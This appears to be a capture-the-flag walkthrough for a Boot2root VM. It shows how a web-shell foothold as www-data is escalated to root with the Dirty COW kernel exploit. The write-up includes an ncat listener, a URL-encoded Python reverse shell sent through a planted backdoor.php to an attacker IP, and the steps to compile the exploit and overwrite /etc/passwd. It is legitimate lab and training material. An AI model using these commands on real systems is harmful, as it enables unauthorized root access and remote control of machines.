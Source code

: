 # Dirty Cow Exploit
After setting up the Reverse Shell on user www-data, we can see that the Kernel version of Linux is 3.2.0 which has a massive exploit none as Dirty COW. The exploit consists of taking advantage of a race condition that happens when you try to write on a cache of a file that's just has been deleted and can permit you to write on any files and in our case /etc/passwd. 

When logged in as user www-data we can go to /tmp to write our exploit and compile it, i chose the firefart version on [Dirty Cow Ninja](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) which takes as the argument the new password of root, we modified the code as to have the user named root:

 1. First we launch ncat with the following flags to listen on any host on port 1234

    └─# ncat -nvklp 1234
	Ncat: Version 7.93 ( https://nmap.org/ncat )
	Ncat: Listening on :::1234
	Ncat: Listening on 0.0.0.0:1234

 2. Secondly, we send our reverse shell through our backdoor:
 
 `curl --insecure https://<BOOT2ROOT IP>/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<OUR IP>%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27
`

 3. Now we are connected to the VM of Boot2root on www-data and we can write on ou current directory /var/www/forum/templates_c so let's copy our dirty.c, compile it and then execute it
 
    Ncat: Connection from 192.168.56.102.
	Ncat: Connection from 192.168.56.102:51482.	
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ cat > dirty.c << lol
	><DIRTY.C code>
	>lol
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ gcc -pthread dirty.c -o dirty -lcrypt
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ ./dirty q
	./dirty q
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: q
Complete line:
root:roI77uTJXVKgg:0:0:pwned:/root:/bin/bash
mmap: b7fda000

We can relaunch our reverse shell, and just

    www-data@BornToSecHackMe:/var/www/forum/templates_c$ su root
    Password:q
    root@BornToSecHackMe:/var/www/forum/templates_c$ id
    uid=0(root) gid=0(root) groups=0(root)
